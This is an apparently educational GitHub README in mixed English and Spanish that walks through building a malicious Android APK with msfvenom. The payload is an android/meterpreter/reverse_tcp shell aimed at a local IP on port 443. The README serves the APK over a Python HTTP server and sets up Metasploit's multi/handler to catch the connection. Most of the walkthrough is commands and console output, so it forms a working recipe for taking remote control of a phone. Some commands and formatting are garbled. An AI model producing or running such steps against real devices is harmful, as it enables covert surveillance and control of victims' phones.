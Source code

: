 # Ethical-Hacking

In these practices we will put in the form of code and a step-by-step explanation of each practice.

## First Practice

### msfvenom apk

In this first practice we will use msfvenom to create an application which will aim to control an Android device for ethical purposes.


#### Escalate privileges
**┌──(kali㉿CarlosSantos)-[~]**
**└─$** `sudo -s`


#### We check what our hostname is
**┌──(root㉿CarlosSantos)-[/home/kali]**
**└─#** `hostname -I`



 >[!INFO]
 >
 >If you do not have kali metasploit installed on your system, you must install it `sudo apt install metasploit-framework`


#### We use msfvenom
**┌──(root㉿CarlosSantos)-[/home/kali]**
**└─#** `msfvenom -p android/meterpreter/reverse_tcp LHOST=172.27.4.239 LPORT=443 -o practice.apk`

1. *msfvenom: Es el nombre del comando que invoca la herramienta msfvenom. **-p***

1. *`android/meterpreter/reverse_tcp`: Specifies the payload to use in the APK file. In this case, the `android/meterpreter/reverse_tcp` payload is used, which allows establishing a reverse TCP connection on Android devices.*

1. *LHOST=172.27.4.239: Specifies the IP address of the host (the machine running the server) to which the Metasploit payload will connect. In this case, the IP address is 172.27.4.239*

1. *LPORT=443: Specifies the port number on the host that the Metasploit payload will connect to. In this case, the port is 443, which is commonly used for secure HTTPS connections.*

1. **-o** *practice.apk: Especifica el nombre del archivo de salida, es decir, el nombre del archivo APK malicioso que se generará. En este caso, el archivo se llamará practice.apk.*


#### We create a local server with python3
**┌──(root㉿CarlosSantos)-[/home/kali]**
**└─#** `python3 -m http.server 80`



   >[!IMPORTANT]
   >
   >Remember to connect to the server with your android, in this case they must be on the same network since the server is local, just like our attack.
   >Install practice.apk in your android


#### Running the msfconsole
**┌──(root㉿CarlosSantos)-[/home/kali]**
**└─#** `msfconsole`

1. *Running the msfconsole command will open an interactive console where you can use a wide range of Metasploit functionality. From this console, you can load and configure modules, select and configure exploits, scan and enumerate systems, launch attacks, and perform penetration testing on networks and systems.*

#### Running the /multi/handler
**msf6 >**  `use /multi/handler`
**[*] Using configured payload generic/shell_reverse_tcp msf6 exploit(multi/handler) >**

1. *This command is used to select the multi/handler module, which is a special module in Metasploit that is used to handle reverse shell or meterpreter connections. That is, it is the module that listens to and handles incoming connections from payloads that have been executed on the target systems.*


#### set payload
**msf6 exploit(multi/handler) >** `set payload android/meterpreter reverse_tcp`
**payload => android/meterpreter/reverse_tcp**

1. *The set payload android/meterpreter/reverse_tcp command is used in the msfconsole command line interface of the Metasploit Framework.*

**This command configures the payload to be used in the currently selected module. In this case, the payload is android/meterpreter/reverse_tcp.*

**Here is the meaning of each part of the payload:*

**android: Indicates that the payload is designed for Android systems.*
**meterpreter: It is an advanced and versatile Metasploit shell that provides a number of features, such as the ability to migrate between different processes, load scripts and extensions at runtime, and capture keyboard and screen input.reverse_tcp: This is a type of connection in which the target machine establishes the connection back to the attacker (i.e. "reverse"), which can be useful for bypassing certain types of firewalls.*


####

**msf6 exploit(multi/handler) >** `show options`

*Module options (exploit/multi/handler):*

   **Name**  **Current** **Setting**  **Required**  **Description**
   ----  ---------------  --------  -----------


**Payload options (android/meterpreter/reverse_tcp):**

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface
                                      may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.



* *Este comando muestra las opciones disponibles para el módulo actualmente seleccionado. Estas opciones pueden incluir detalles como la dirección IP y el puerto del host objetivo, la dirección IP y el puerto del host local, las credenciales para autenticarse en el host objetivo, y más.*


types of firewalls.*
####
